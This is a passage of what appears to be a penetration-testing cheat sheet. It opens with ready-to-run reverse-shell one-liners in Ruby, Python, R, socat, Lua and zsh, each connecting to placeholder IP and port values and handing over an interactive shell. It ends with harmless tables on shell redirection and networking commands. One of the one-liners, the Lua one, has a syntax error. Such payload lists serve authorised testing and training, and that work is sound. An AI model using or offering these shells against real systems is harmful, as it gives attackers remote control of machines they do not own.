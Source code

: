 ```
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("IP","PORT");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```
- python: 

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
- R: 

```
R -e "s<-socketConnection(host='IP',port=PORT,blocking=TRUE,server=FALSE,open='r+');while(TRUE){writeLines(readLines(pipe(readLines(s, 1))),s)}"
```
- socat: 

```
socat tcp-connect:IP:PORT exec:"bash -li",pty,stderr,setsid,sigint,sane
```
- lua: 

```
lua -e "local s=require('socket');local t=assert(s.tcp());t:connect('IP',PORT;while true do local r,x=t:receive();local f=assert(io.popen(r,'r'));local b=assert(f:read('*a'));t:send(b);end;f:close();t:close();"
```
- zsh: 

```
zsh -c 'zmodload zsh/net/tcp && ztcp IP PORT && zsh >&$REPLY 2>&$REPLY 0>&$REPLY'
```

IO Redirection
--------------
- `>` - Redirect standard out (STDOUT), truncates
- `>>` - Redirect STDOUT and appends
- `1>` - Redirect standard out (STDOUT), truncates
- `1>>` - Redirect STDOUT and appends
- `2>` - Redirect error messages (STDERR)
- `M>&N` - Redirect file descriptor M to N (for example 2>&1 will redirect STDERR to STDOUT to unify output)

Networking
----------
| what do                | traditional     | "new" style |
| ---------------------- | --------------- | ----------- |
| list listening ports\* | `netstat -ltnu` | `ss -tlu`   |
| list listening ports w/ process\*\# | `netstat -ltnup` | `ss -tlup`   |
| list interfaces\* | `ifconfig -a` | `ip link`   |
| list interface ips\* | `ifconfig -a` | `ip addr`   |
| list routing table\* | `route -n` | `ip route`   |
| arp table\* | `arp` | `ip neigh`   |
| active connections\* | `netstat -natp` | `ss -ta`   |
| find hostname\* | `hostname` | `hostname`   |
| find DNS resolver\* | `cat /etc/resolv.conf` | `cat /etc/resolv.conf`   |
